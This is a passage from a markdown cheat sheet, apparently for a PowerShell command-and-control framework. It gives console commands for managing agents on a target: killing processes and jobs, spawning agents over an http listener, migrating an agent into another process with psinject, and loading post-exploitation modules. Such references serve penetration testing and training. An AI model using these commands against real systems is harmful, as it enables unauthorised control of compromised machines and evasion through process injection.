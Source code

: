 ```bash

# Terminate a process on the target
kill NAME

# Show active jobs
jobs

# Kill job N
jobs kill N

# Exit the agent session and delete it
exit
```

##### Spawning a new agent

```bash
# Specify the listener to use for the agent (ex. http)
spawn http

# This will take you to a new context menu, just execute to spawn the new agent
execute

# Check that the agent was successfully created
agents
```

##### Migrate the agent to another process

```bash
# This will create a new agent under the process, leaving the old agent active as well.
psinject http PID

# Options
http	# Name of the active listener
PID		# Process ID to migrate to
```

#### Powershell Modules

The agent can load many different modules, similar to Meterpreter.  Modules are divided into categories as well.

```bash
# Double tab after usemodule to see options
# Modules with an * at the end require a high integrity agent session

# NOTE!!! Depending on your context, you may not need the full path to the module.  For instance, from the agent menu, you don't need to specify `powershell/`

usemodule MODULENAME
```

##### Module Commands
